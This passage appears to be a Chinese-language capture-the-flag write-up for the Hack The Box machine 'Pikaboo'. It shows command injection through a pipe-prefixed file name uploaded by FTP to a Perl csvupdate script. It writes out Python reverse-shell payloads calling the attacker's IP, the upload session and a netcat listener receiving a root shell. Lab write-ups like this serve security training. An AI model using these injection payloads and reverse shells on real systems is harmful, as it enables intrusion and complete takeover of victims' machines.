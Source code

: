 经过大量的阅读和反复试验，我发现我们可以通过上传一个文件并重命名它来利用 csvupdate Perl 脚本，这样开始的字符就是一个管道。然后我们就可以执行它之后的任何代码。

我尝试了一个经典的 Pentestmonkey [Python 反向 shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 没有成功。不过，在其他盒子上使用的一个更简单的方法确实有效。

为了利用这一点，我们需要我们的文件在通过 ftp 上传后被命名为 this:

```
"|python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.239\",1338));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([""\"sh\",""\"-i\"])';.csv"
```

请注意，第一个字符是，然后执行后面的代码。这将使用 Python 在 Kali 上为我们打开外壳。还可以看到，我不得不做了一些额外的反斜杠，以确保特殊字符得到正确处理。

将命令更改为 Kali tun0 IP 和端口后，我们只需将它作为 put 命令的一部分粘贴进来。首次登录 FTP:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

从根文件夹转到另一个文件夹，因为我们在那里没有权限:

```
ftp> cd versions
250 Directory successfully changed.
```

使用 put 命令，我们需要一个本地文件上传到这里，我刚刚创建了一个名为 test 的空白文件。然后，我们将上面的命令粘贴到末尾:

```
ftp> put test "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.239\",1338));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"sh\")';.csv"local: test remote: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.239",1338));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';.csv200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp>
```

上传时，名为 test 的文件被重命名为我们的有效负载。现在切换到一个等待中的 Netcat 监听器，看看我们有一个反向 shell 作为 root 连接:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# nc -lvvp 1338
listening on [any] 1338 ...
connect to [10.10.14.239] from pikaboo.htb [10.10.10.249] 52370
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
